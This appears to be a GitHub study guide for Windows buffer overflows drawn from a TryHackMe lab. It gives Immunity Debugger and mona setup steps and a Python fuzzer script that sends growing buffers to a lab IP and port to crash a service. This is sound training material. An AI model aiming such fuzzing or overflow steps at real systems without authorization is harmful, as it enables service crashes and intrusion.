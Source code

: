 # Windows Buffer Overflow - Steps

In this guide we look at the common steps for basic buffer overflows relating to Windows. This is heavily referenced from Tib4rius's Tryhackme room. 

[Tib3rius Material on Buffer Overflow](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)




## Basic Setup

1. Run Immunity Debugger in Admin mode
2. Make sure you have a working folder for Mona Modules

The working folder can be set up by
> **!mona config -set workingfolder c:\mona\%p**

With a working folder set up, it will be easier to compare the bad chars.



## Initial Fuzzing

Based on the way traffic needs to be sent to the target machine, you should make appropriate tweaks in your fuzzer. The basic outline of the fuzzer is as below.

```
import socket, time, sys

ip = "10.10.166.63"    # change this
port = 1337			   # change this
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")            # This will depend on the application to be overflown
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```
